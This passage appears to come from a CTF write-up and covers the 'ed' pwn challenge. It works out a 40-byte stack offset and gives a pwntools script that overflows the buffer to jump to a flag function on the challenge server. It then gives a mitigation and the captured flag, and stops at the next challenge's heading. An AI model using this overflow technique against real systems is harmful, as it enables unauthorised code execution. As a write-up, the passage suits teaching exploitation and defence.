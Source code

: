 ### 2.D: POC

As the application never crashes, we need a way to find out how many bytes we have to send before overwriting the return address, we can do that by increasing by multiples of 8 (as it's a 64 bit system), or just calculate it manually.

The stack will look something like this: 


| BUFFER |
| FILENAME | 
| INPUT | 
| SAVED RBP | 
| RET ADDRESS |

So the distance will be 24+8+8, giving us 40 of padding before sending the return address we want, and then sending a `Q` command to return.

```python
from pwn import *

elf= ELF('./ed')
session = remote('ed.hsctf.com', 1337)
win_address=p64(elf.symbols['flag'])
payload = b"a"*40 + win_address
session.sendline(payload)
session.sendlineafter("?",b"Q")
print(session.recvall().decode())
```

### 2.E: Mitigation

The mitigation for this challenge is easy, just edit the `fgets` function to read 24 bytes from stdin and into the declared array. Any value > 24 bytes and < 48 bytes, would be unsafe and clobber some data but not let us get code execution as we need exactly 48 bytes to overwrite the return address successfully.

Of-course without forgetting the correct modern protection mechanisms, like enabling PIE and Canaries.


`flag{real_programmers_use_butterflies}`
## 3: PWN/cat

![Alt text](Images/20230614010752.png)
### 3.A: Security checks